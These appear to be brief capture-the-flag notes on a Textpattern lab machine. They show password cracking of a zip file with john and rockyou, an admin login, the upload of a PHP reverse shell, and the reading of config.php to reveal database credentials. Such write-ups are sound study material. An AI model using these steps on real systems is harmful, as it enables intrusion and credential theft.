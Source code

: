 -  downloaded spammer\.zip
-  was password protected

**zip2john spammer\.zip \> creds\.txt
john \-\-wordlist=/usr/share/wordlists/rockyou\.txt creds\.txt**
myspace4         \(spammer\.zip/creds\.txt\)

found creds\.txt file
mayer:lionheart 

-  logged into /textpattern/textpattern
-  uplaoded php reverse shell
-  /textpattern/files/php\-reverse\-shell\.php 
-  spawned shell www\-data

-  cat /var/www/textpattern/textpattern/config\.php
cat /var/www/textpattern/textpattern/config\.php
\<?php
$txpcfg\['db'\] = 'textpattern\_db';
$txpcfg\['user'\] = 'drifter';
$txpcfg\['pass'\] = 'imjustdrifting31';
$txpcfg\['host'\] = 'localhost';
$txpcfg\['table\_prefix'\] = '';
$txpcfg\['txpath'\] = '/var/www/textpattern/textpattern';
$txpcfg\['dbcharset'\] = 'utf8mb4';
// For more customization options, please consult config\-dist\.php file\.
